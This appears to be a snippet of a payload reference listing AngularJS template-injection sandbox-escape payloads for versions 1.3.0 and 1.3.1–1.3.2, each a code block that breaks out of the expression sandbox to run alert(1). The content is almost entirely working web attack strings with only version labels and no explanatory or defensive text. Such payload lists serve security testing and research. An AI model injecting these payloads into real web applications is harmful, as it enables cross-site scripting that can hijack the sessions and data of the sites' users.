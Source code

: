   

AngularJS 1.3.1 - 1.3.2

  

```javascript

{{

{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;

'a'.constructor.prototype.charAt=''.valueOf;

$eval('x=alert(1)//');

}}

```

  

AngularJS 1.3.0

  

```javascript

{{!ready && (ready = true) && (

!call

? $$watchers[0].get(toString.constructor.prototype)

: (a = apply) &&

(apply = constructor) &&

(valueOf = call) &&

(''+''.toString(

'F = Function.prototype;' +

'F.apply = F.a;' +

'delete F.a;' +

'delete F.valueOf;' +

'alert(1);'

))

);}}

```

